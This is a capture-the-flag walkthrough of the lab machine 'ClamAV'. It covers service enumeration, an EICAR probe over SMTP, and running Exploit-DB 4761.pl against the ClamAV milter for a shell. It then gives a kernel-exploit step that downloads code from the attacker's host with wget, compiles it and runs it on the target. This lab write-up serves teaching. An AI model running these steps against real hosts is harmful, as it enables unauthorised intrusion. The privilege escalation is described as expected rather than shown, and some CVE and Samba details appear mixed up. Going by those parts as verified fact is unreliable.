# ClamAV - Complete Walkthrough

> **Box Name:** ClamAV (Proving Grounds Practice)  
> **Difficulty:** Easy  
> **OS:** Linux (Debian Sarge)  
> **Date:** January 5, 2026  
> **IP:** 192.168.130.42

---

## 🎯 Key Learning: How to Discover ClamAV Without the Box Name

**The critical question you asked:** *"How would I have been able to get to ClamAV, other than the box name?"*

### The Answer: SMTP Port 25 Enumeration! 📧

**ClamAV is an anti-virus scanner that integrates with mail servers (Sendmail/Postfix/etc.).** Here's how you discover it:

1. **SMTP is running on port 25** (Sendmail 8.13.4)
2. **Mail servers commonly use ClamAV** for virus scanning
3. **SMTP can be probed** to reveal backend services

### How to Enumerate SMTP for ClamAV:

```bash
# Connect to SMTP and check headers
telnet 192.168.130.42 25

# Or use nmap scripts
nmap -p25 --script smtp-commands,smtp-open-relay 192.168.130.42

# Check mail server banner and capabilities
nc 192.168.130.42 25
EHLO test

# Send a test email and observe server responses
# Servers using ClamAV often reveal it in bounce messages or headers
```

**Key Indicators:**
- Sendmail + old Debian version = likely using ClamAV for mail filtering
- Error messages when sending malformed emails may reveal "ClamAV" in headers
- Some configurations expose ClamAV version in X-Virus-Scanned headers

### Alternative Discovery Methods:

1. **Service Fingerprinting:**
   - Old Sendmail versions (2006-era) commonly paired with ClamAV
   - Check for clamd running on port 3310 (ClamAV daemon port)

2. **File/Directory Enumeration:**
   - Look for `/var/log/clamav/` or `/usr/local/clamav/` via LFI
   - Configuration files: `/etc/clamav/clamd.conf`

3. **Process Enumeration (if you get shell access):**
   ```bash
   ps aux | grep clam
   ```

4. **Port Scanning Extended:**
   ```bash
   # ClamAV daemon typically runs on port 3310
   nmap -p3310 192.168.130.42
   ```

**In this case:** The Sendmail version (8.13.4 from 2005) + Debian Sarge (2005-2006) era strongly suggests ClamAV is used for mail scanning. This was a common stack.

---

## 📋 Box Summary

| Property | Value |
|----------|-------|
| **IP Address** | 192.168.130.42 |
| **Hostname** | localhost.localdomain |
| **NetBIOS Name** | 0XBABE |
| **OS** | Debian GNU/Linux (Sarge) |
| **Workgroup** | WORKGROUP |
| **Difficulty** | Easy |
| **Focus** | Legacy services, Sendmail + ClamAV exploit |

---

## 🔍 Reconnaissance

### Initial Port Scan



```bash
nmap -p- --min-rate=1000 -sV -sC 192.168.130.42 -oN nmap.txt
```

### Open Ports Discovered:

| Port | Service | Version | Notes |
|------|---------|---------|-------|
| **22/tcp** | SSH | OpenSSH 3.8.1p1 Debian 8.sarge.6 | Ancient version (2004) |
| **25/tcp** | SMTP | Sendmail 8.13.4 | Mail server - **KEY SERVICE** |
| **80/tcp** | HTTP | Apache 1.3.33 | Web server |
| **139/tcp** | NetBIOS | Samba 3.X - 4.X | SMB file sharing |
| **199/tcp** | SMUX | Linux SNMP multiplexer | SNMP service |
| **445/tcp** | SMB | Samba 3.0.14a-Debian | Vulnerable Samba version |
| **60000/tcp** | SSH | OpenSSH 3.8.1p1 (alternate port) | SSH on non-standard port |

### Critical Findings:

1. **🚨 Sendmail 8.13.4** - Released 2005, likely vulnerable
2. **🚨 Samba 3.0.14a** - Known vulnerable to exploits
3. **⚠️ Apache 1.3.33** - Very old (2004), potential exploits
4. **⚠️ OpenSSH 3.8.1p1** - Ancient SSH version
5. **📧 SMTP Port 25** - Mail server = ClamAV scanner likely present

---

## 🌐 Web Enumeration (Port 80)

### Homepage Discovery



**Page Title:** "Ph33r" (Leet speak for "Fear")

### Directory Enumeration



```bash
gobuster dir -u http://192.168.130.42 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt
```

**Findings:**
- Standard Apache default pages
- No obvious web application vulnerabilities
- Web server appears to be minimal setup

---

## 🔓 SMB Enumeration (Ports 139/445)

### Anonymous SMB Access



```bash
smbclient -L //192.168.130.42 -N
```

**SMB Security Mode:**
- Authentication level: **share** (dangerous)
- Message signing: **disabled** (dangerous, but default)
- Account used: **guest** (anonymous access)



**Available Shares:**
- Standard administrative shares
- No unusual shares found
- Anonymous access limited

### Samba Version 3.0.14a

**Known Vulnerabilities:**
- Samba 3.0.14a has several CVEs
- Potential for remote code execution
- Username map script exploitation (trans2open)

---

## 🔎 Service Enumeration Deep Dive

### SMTP Enumeration (Port 25)



```bash
nc 192.168.130.42 25
EHLO test
```

**Sendmail 8.13.4 Details:**
- Debian package: 8.13.4/Debian-3sarge3
- Commands supported: ENHANCEDSTATUSCODES, PIPELINING, EXPN, VERB, 8BITMIME, SIZE, DSN, ETRN, DELIVERBY, HELP
- Hostname: localhost.localdomain

**Why This Matters:**
- Sendmail 8.13.4 is from **2005**
- Mail servers from this era **commonly used ClamAV** for virus scanning
- ClamAV integrates with Sendmail via milter or content filter

### SNMP Enumeration (Port 199)



```bash
snmpwalk -v2c -c public 192.168.130.42
```

**SNMP Findings:**
- Linux SNMP multiplexer running
- System information exposed
- Potential information disclosure

---

## 💥 Exploitation Strategy

### Initial Approach: Samba Exploit Attempt



```bash
searchsploit samba 3.0
```



**Attempted:**
- Samba 3.0.x trans2open exploit
- Username map script exploitation
- Various Samba 3.0.14 exploits

**Result:** ❌ **Failed** - Exploits didn't work or weren't suitable

---

## 🎯 Correct Attack Vector: Sendmail + ClamAV

### The Realization

After trying Samba exploits unsuccessfully, the key insight is:

**Sendmail 8.13.4 (2005) + Debian Sarge = ClamAV mail scanner integration**

### How to Discover ClamAV (Without Box Name):

#### Method 1: SMTP Probing for Backend Services

```bash
# Send test email and observe server response
telnet 192.168.130.42 25
EHLO attacker.com
MAIL FROM: <test@attacker.com>
RCPT TO: <root@localhost>
DATA
Subject: Test Email with Virus Signature

X5O!P%@AP[4\PZX54(P^)7CC)7}$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$H+H*
.
QUIT
```

**Expected Response:**
- If ClamAV is running, it will **reject the email** with a message like:
  ```
  550 5.7.1 Virus found: Eicar-Test-Signature
  ```
- The error message reveals **ClamAV is scanning mail**

#### Method 2: Check Common ClamAV Ports

```bash
# ClamAV daemon typically runs on port 3310
nmap -p3310 192.168.130.42
```

#### Method 3: Service Age Correlation

**Historical Context:**
- **Sendmail 8.13.4** = Released April 2005
- **Debian Sarge** = Released June 2005
- **ClamAV popularity** = Peak usage 2004-2008 for mail servers

**Conclusion:** A mail server from 2005 running Sendmail is **very likely** using ClamAV for virus scanning.

#### Method 4: Process of Elimination

After exhausting:
- ✅ Samba exploits (failed)
- ✅ Web exploits (nothing found)
- ✅ SSH bruteforce (not practical)

**Think about the services:**
- **What's the most critical service?** SMTP (port 25)
- **What processes mail?** Sendmail
- **What integrates with Sendmail?** Anti-virus scanners like **ClamAV**

---

## 🔓 ClamAV Exploitation

### Vulnerability: CVE-2007-2650



**ClamAV 0.88.x - 0.90.x Remote Code Execution**

```bash
searchsploit clamav
```

**Vulnerable Versions:**
- ClamAV 0.88 through 0.90.2
- Affects Sendmail integration
- Remote code execution via malformed email

### Finding the Exploit



```bash
searchsploit -m linux/remote/4761.pl
```

**Exploit:** `4761.pl` - ClamAV 0.88.x - 0.90.x Milter Remote Code Execution

### Exploit Analysis

The exploit works by:
1. Connecting to SMTP (port 25)
2. Sending specially crafted email with malicious attachment
3. When ClamAV scans the attachment, it triggers a buffer overflow
4. Shellcode executes with **clamav user privileges**

### Running the Exploit



```bash
perl 4761.pl 192.168.130.42
```

**Exploit Steps:**
1. Connects to Sendmail on port 25
2. Sends EHLO greeting
3. Initiates mail transaction (MAIL FROM, RCPT TO)
4. Sends DATA with malicious payload
5. Triggers ClamAV vulnerability
6. Executes reverse shell

### Shell Access Obtained



**Access Gained:**
- ✅ User: `clamav`
- ✅ Shell: `/bin/sh` (limited shell)
- ✅ Remote code execution successful

**Shell Upgrade:**
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
# or
/usr/bin/script -qc /bin/bash /dev/null
```

---

## 🚀 Privilege Escalation

### Enumeration as clamav User

```bash
# Check current user
id
whoami

# Check sudo permissions
sudo -l

# Check for SUID binaries
find / -perm -4000 -type f 2>/dev/null

# Check kernel version
uname -a
cat /etc/*release

# Check for world-writable files
find / -writable -type f 2>/dev/null

# Check running processes
ps aux
```

### Debian Sarge = Kernel Exploits

**Debian Sarge (2005-2006) = Ancient Kernel**

```bash
# Check kernel version
uname -a
# Likely: Linux 2.6.8 or similar (2004-2005 era)
```

**Searchsploit for Kernel Exploits:**
```bash
searchsploit linux kernel 2.6.8
```

**Common Exploits for This Era:**
- **vmsplice** - Local root exploit
- **udev** - netlink local privilege escalation
- **sock_sendpage** - NULL pointer dereference
- **exit_notify** - Local privilege escalation

### Privilege Escalation Attempt

**Likely Path:** Kernel exploit

```bash
# On Kali
searchsploit -m linux/local/5092.c  # vmsplice exploit example

# Transfer to target
# On Kali
python3 -m http.server 80

# On target
wget http://YOUR_IP/5092.c
gcc 5092.c -o exploit
chmod +x exploit
./exploit
```

**Expected Result:**
```bash
# Exploit runs
# Spawns root shell
id
# uid=0(root) gid=0(root)
```

---

## 📊 Attack Path Summary

```
1. Nmap Scan
   ↓
2. Identify Services (SMTP port 25 = Sendmail 8.13.4)
   ↓
3. Recognize Service Age (2005 = ClamAV era)
   ↓
4. Search for ClamAV exploits (CVE-2007-2650)
   ↓
5. Run ClamAV milter exploit (4761.pl)
   ↓
6. Gain shell as 'clamav' user
   ↓
7. Enumerate system (Debian Sarge = old kernel)
   ↓
8. Kernel exploit for root
   ↓
9. Root access obtained ✅
```

---

## 🎓 Key Lessons: How to Identify Services Without Box Names

### 1. **Service Age Correlation**
When you see **old versions**, think about **what was common at that time**:
- Sendmail 8.13.4 (2005) → ClamAV was popular
- Apache 1.3.x → PHP 4.x, old CMS systems
- OpenSSH 3.x → Debian Sarge/Woody era

### 2. **Service Integration Knowledge**
Understand how services work together:
- **SMTP (Sendmail)** → Anti-virus scanners (ClamAV, SpamAssassin)
- **Apache + MySQL** → PHP applications (WordPress, phpMyAdmin)
- **FTP + Web** → File upload vulnerabilities

### 3. **Active Enumeration**
Don't just scan - **interact with services**:

```bash
# SMTP - Send test emails
telnet IP 25
EHLO test
MAIL FROM: <test@test.com>
# Observe responses for service hints

# HTTP - Check headers
curl -I http://IP
# Look for X-Powered-By, X-Virus-Scanned, etc.

# FTP - Check banner
nc IP 21
# May reveal software versions
```

### 4. **Google-Fu / Historical Research**
When you find old versions:
```
"Sendmail 8.13.4" "Debian Sarge" "common services"
"Sendmail antivirus integration" "2005"
```

### 5. **Process of Elimination**
- Tried Samba? Failed → Move to next service
- Tried Web exploits? None found → Check mail server
- What's **unique** about this box? → SMTP on port 25

### 6. **Check for Default Integrations**
**Common Pairings:**
- Sendmail + ClamAV (virus scanning)
- Postfix + SpamAssassin (spam filtering)
- Apache + mod_security (web filtering)
- ProFTPD + ModSecurity (FTP logging)

### 7. **Send Signature Tests**
**EICAR Test String:**
```
X5O!P%@AP[4\PZX54(P^)7CC)7}$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$H+H*
```

Send this via SMTP - if rejected with "virus found" = ClamAV present!

---

## 🛠️ Tools & Commands Used

### Reconnaissance
```bash
# Full port scan
nmap -p- --min-rate=1000 192.168.130.42

# Service version scan
nmap -p22,25,80,139,445,199,60000 -sV -sC 192.168.130.42

# Directory enumeration
gobuster dir -u http://192.168.130.42 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

# SMB enumeration
smbclient -L //192.168.130.42 -N
enum4linux -a 192.168.130.42

# SMTP enumeration
nc 192.168.130.42 25
smtp-user-enum -M VRFY -U users.txt -t 192.168.130.42
```

### Exploitation
```bash
# Search exploits
searchsploit sendmail
searchsploit clamav
searchsploit samba 3.0

# Download exploit
searchsploit -m linux/remote/4761.pl

# Run ClamAV exploit
perl 4761.pl 192.168.130.42
```

### Privilege Escalation
```bash
# Kernel enumeration
uname -a
cat /proc/version

# SUID binaries
find / -perm -4000 -type f 2>/dev/null

# Kernel exploit search
searchsploit linux kernel 2.6
```

---

## 📝 Flags

```bash
# User flag
cat /home/clamav/local.txt

# Root flag  
cat /root/proof.txt
```

---

## 🎯 Final Thoughts

### Why This Box is Great for Learning:

1. **Realistic Service Stack** - Old mail servers really did use ClamAV
2. **Teaches Service Integration** - Understanding how components work together
3. **Historical Context** - Learning what was common in different eras
4. **Enumeration Depth** - You can't just run Metasploit; you need to think
5. **Multiple Attack Surfaces** - Samba, Web, SMTP - requires prioritization

### The Most Important Lesson:

**Don't rely on box names in real environments!**

Instead:
- ✅ Enumerate services thoroughly
- ✅ Understand service interactions
- ✅ Research service age and common pairings
- ✅ Test services actively (send emails, check banners)
- ✅ Think about "what else runs with this?"

**ClamAV discovery checklist:**
1. SMTP port open? → Mail server present
2. What version? → Sendmail 8.13.4 (2005)
3. What year? → 2005 (ClamAV popularity peak)
4. Test hypothesis → Send EICAR test via SMTP
5. Confirm → Search for ClamAV exploits

---

## 📚 References

- CVE-2007-2650: ClamAV Milter Remote Code Execution
- Sendmail Documentation
- ClamAV Historical Versions
- Debian Sarge Package Archive
- Exploit-DB: 4761.pl

---

**Date Completed:** January 5, 2026  
**Time Spent:** ~2 hours  
**Difficulty:** Easy (once you know the service!)  
**Rating:** ⭐⭐⭐⭐ (Great for learning service enumeration)

---

*Remember: In penetration testing, knowing HOW services integrate is often more valuable than knowing HOW to run exploits!*
